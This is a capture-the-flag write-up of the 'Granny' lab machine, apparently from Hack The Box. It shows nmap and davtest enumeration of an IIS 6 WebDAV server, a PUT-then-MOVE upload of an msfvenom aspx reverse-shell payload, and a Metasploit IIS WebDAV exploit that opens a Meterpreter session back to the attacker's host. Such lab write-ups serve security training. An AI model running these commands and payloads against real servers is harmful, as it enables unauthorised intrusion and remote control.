 ## Granny

__Machine IP: 10.10.10.15__
Difficulty: Easy

## Scanning

### Nmap Scanning

```bash
$ nmap -sC -sV  -oA granny.nmap 10.10.10.15                                                     1 ⚙
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-20 16:09 EDT
Nmap scan report for 10.10.10.15
Host is up (0.096s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
| http-ntlm-info: 
|   Target_Name: GRANNY
|   NetBIOS_Domain_Name: GRANNY
|   NetBIOS_Computer_Name: GRANNY
|   DNS_Domain_Name: granny
|   DNS_Computer_Name: granny
|_  Product_Version: 5.2.3790
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Type: Microsoft-IIS/6.0
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|_  Server Date: Fri, 20 Aug 2021 20:12:50 GMT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.66 seconds
```

## Enumeration

- Running `gobuster` yeilded no useful information
- Running `davtest` shows  the following output

```javascript
$ davtest --url http://10.10.10.15
********************************************************
 Testing DAV connection
OPEN		SUCCEED:		http://10.10.10.15
********************************************************
NOTE	Random string for this session: 1wo8aCKL
********************************************************
 Creating directory
MKCOL		SUCCEED:		Created http://10.10.10.15/DavTestDir_1wo8aCKL
********************************************************
 Sending test files
PUT	cfm	SUCCEED:	http://10.10.10.15/DavTestDir_1wo8aCKL/davtest_1wo8aCKL.cfm
PUT	txt	SUCCEED:	http://10.10.10.15/DavTestDir_1wo8aCKL/davtest_1wo8aCKL.txt
PUT	jsp	SUCCEED:	http://10.10.10.15/DavTestDir_1wo8aCKL/davtest_1wo8aCKL.jsp
PUT	shtml	FAIL
PUT	html	SUCCEED:	http://10.10.10.15/DavTestDir_1wo8aCKL/davtest_1wo8aCKL.html
PUT	cgi	FAIL
PUT	aspx	FAIL
PUT	php	SUCCEED:	http://10.10.10.15/DavTestDir_1wo8aCKL/davtest_1wo8aCKL.php
PUT	pl	SUCCEED:	http://10.10.10.15/DavTestDir_1wo8aCKL/davtest_1wo8aCKL.pl
PUT	asp	FAIL
PUT	jhtml	SUCCEED:	http://10.10.10.15/DavTestDir_1wo8aCKL/davtest_1wo8aCKL.jhtml
********************************************************
 Checking for test file execution
EXEC	cfm	FAIL
EXEC	txt	SUCCEED:	http://10.10.10.15/DavTestDir_1wo8aCKL/davtest_1wo8aCKL.txt
EXEC	jsp	FAIL
EXEC	html	SUCCEED:	http://10.10.10.15/DavTestDir_1wo8aCKL/davtest_1wo8aCKL.html
EXEC	php	FAIL
EXEC	pl	FAIL
EXEC	jhtml	FAIL

********************************************************
/usr/bin/davtest Summary:
Created: http://10.10.10.15/DavTestDir_1wo8aCKL
PUT File: http://10.10.10.15/DavTestDir_1wo8aCKL/davtest_1wo8aCKL.cfm
PUT File: http://10.10.10.15/DavTestDir_1wo8aCKL/davtest_1wo8aCKL.txt
PUT File: http://10.10.10.15/DavTestDir_1wo8aCKL/davtest_1wo8aCKL.jsp
PUT File: http://10.10.10.15/DavTestDir_1wo8aCKL/davtest_1wo8aCKL.html
PUT File: http://10.10.10.15/DavTestDir_1wo8aCKL/davtest_1wo8aCKL.php
PUT File: http://10.10.10.15/DavTestDir_1wo8aCKL/davtest_1wo8aCKL.pl
PUT File: http://10.10.10.15/DavTestDir_1wo8aCKL/davtest_1wo8aCKL.jhtml
Executes: http://10.10.10.15/DavTestDir_1wo8aCKL/davtest_1wo8aCKL.txt
Executes: http://10.10.10.15/DavTestDir_1wo8aCKL/davtest_1wo8aCKL.html
```

- Checking those `SUCCESS` files, found that we can place file on server.

- Now create a reverse shell with `aspx` and paste that into a file and `SUBMIT` the request through burp.
- To capture the `davtest` request, set the `burp` to listen on port 80 and capture the requests.

- Sample captured request

```javascript
PUT /DavTestDir_6ULOtW/davtest_6ULOtW.html HTTP/1.1
TE: deflate,gzip;q=0.3
Connection: close
Host: 127.0.0.1:80
User-Agent: DAV.pm/v0.49
Content-Length: 26

HTML put via davtest<br />
```

- create my own sample file

![put_request](images/put_request.PNG)



-  generate a reverse shell payload using `msfvenom`

```bash
$: msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f aspx
```

- setting up the listener using metasploit

```bash
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp

msf6 exploit(multi/handler) > set lhost tun2


msf6 exploit(multi/handler) > set lport 4444

msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.5:4444
```
- Now copy the payload generated from msfvenom and send it as aspx file, but that unfortunately rersulted as `403 forbidden`, but we have another method that can be used in place of `PUT`, that is `MOVE`.

- Usage

```html
MOVE /pub2/folder1/ HTTP/1.1
Destination: http://www.contoso.com/pub2/folder2/
Host: www.contoso.com
```

- First request

```html
PUT /shashi.html HTTP/1.1
TE: deflate,gzip;q=0.3
Connection: close
Host: 10.10.10.15:80
User-Agent: DAV.pm/v0.49
Content-Length: 2916

# msfvenom payload here
```
- Then use `MOVE` to move the file to different location with `aspx` extension

```html
MOVE /shashi.html HTTP/1.1
Destination: /shashi.aspx
TE: deflate,gzip;q=0.3
Connection: close
Host: 10.10.10.15:80
User-Agent: DAV.pm/v0.49
Content-Length: 2916

# No payload this time
```

- On requesting the page, `metasploit` should create a reverse connection.

- Even though connections has been established, its being disconnected, and then i found metasploit module and ran

```bash
msf6 >  use exploit/windows/iis/iis_webdav_scstoragepathfromurl
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > show options

Module options (exploit/windows/iis/iis_webdav_scstoragepathfromurl):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   MAXPATHLENGTH  60               yes       End of physical path brute force
   MINPATHLENGTH  3                yes       Start of physical path brute force
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          80               yes       The target port (TCP)
   SSL            false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI      /                yes       Path of IIS 6 web application
   VHOST                           no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.37.128   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Microsoft Windows Server 2003 R2 SP2 x86


msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set rhosts  10.10.10.15
rhosts => 10.10.10.15
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set lhost 10.10.14.5
lhost => 10.10.14.5
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > run


[*] Started reverse TCP handler on 10.10.14.5:4444 
[*] Trying path length 3 to 60 ...
[*] Sending stage (175174 bytes) to 10.10.10.15
[*] Meterpreter session 1 opened (10.10.14.5:4444 -> 10.10.10.15:1046) at 2021-08-20 18:21:58 -0400

meterpreter >
```